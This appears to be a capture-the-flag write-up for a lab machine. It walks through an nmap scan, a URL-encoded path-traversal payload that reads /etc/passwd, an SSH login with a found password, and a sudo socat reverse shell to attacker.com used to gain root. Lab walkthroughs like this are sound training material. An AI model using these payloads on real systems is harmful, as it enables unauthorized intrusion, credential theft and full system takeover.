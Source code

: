 ## scan

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-30 05:45 EDT
Nmap scan report for 10.10.14.177
Host is up (0.35s latency).
Not shown: 769 closed ports, 229 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.03 seconds
```

browse to the webpage - click into posts

the url has a LFI vulnerability, we can replace the end with ../ to try and read the passwd file

```
http://10.10.14.177/article?name=lfiattack
```

to

```
http://10.10.14.177/article?name=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```

we read the password for falconfeast


## access

use the password for falconfeast to access ssh

read the user flag

## priv esc

copy linpeas.sh onto box and run

we find falconfeast can execute socat as root without a password

google socat priv esc

https://gtfobins.github.io/gtfobins/socat/

get a reverse shell with socat 

on attacker box, listen for reverse shell

```
socat file:`tty`,raw,echo=0 tcp-listen:12345
```

on falconfeast ssh

```
RHOST=attacker.com
RPORT=12345
sudo socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
```

read the root flag.
